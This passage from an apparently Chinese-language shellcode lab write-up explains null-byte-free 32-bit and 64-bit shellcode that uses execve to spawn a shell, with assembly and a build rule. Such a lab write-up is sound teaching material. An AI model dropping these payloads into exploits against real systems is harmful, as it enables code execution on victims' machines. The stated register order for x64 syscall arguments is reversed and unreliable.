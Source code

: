 - 代码和详细注释见上面
- '/usr/bin/env#-i#a=11#b=22#AAAABBBBCCCCDDDDEEEE'是我们构造的字符串，通过call + pop指令可以获取该地址
  - #是占位符。为了防止0导致strcpy无法复制字符串，这里使用#作为占位符，后面会用al进行替换
- `/usr/bin/env -i a=11 b=22`是我们要执行的命令（一定要注意到字符串最后有个\0）
  - ecx存储argv的地址，因此指向ebx+26
  - ebx存储“/usr/bin/env\0”的地址

```shell
mysh2: mysh2.s
	nasm -f elf32 $@.s -o $@.o
	ld --omagic -m elf_i386 $@.o -o $@
```

编译执行，运行了新的shell（omagic 选项使得代码段是可写的）

# Task 3: Writing 64-bit Shellcode

我们的任务是在64位的情况下执行`/bin/bash`

注意到64位和32位的不同：

- 对于 x64架构，调用系统调用是通过 syscall 指令完成的
- 系统调用的前三个参数分别存储在 rdx、 rsi 和 rdi 寄存器中



```asm
section .text
  global _start
    _start:
      ; The following code calls execve("/bin/sh", ...)
      xor  rdx, rdx       ; 3rd argument
      push rdx
        mov rax,"h#######"
        shl rax,56
        shr rax,56
        push rax
      mov rax,'/bin/bas'
      push rax
      mov rdi, rsp        ; 1st argument
      push rdx ; 重点是这两行
      push rdi 
      mov rsi, rsp        ; 2nd argument
      xor  rax, rax
      mov al, 0x3b        ; execve()
      syscall
```

几点需要注意的：

- rax是系统调用号，这里执行execve
- rdi储存`/bin/bash\0`的地址
- rdx是0

objdump一下，发现确实没有0字节
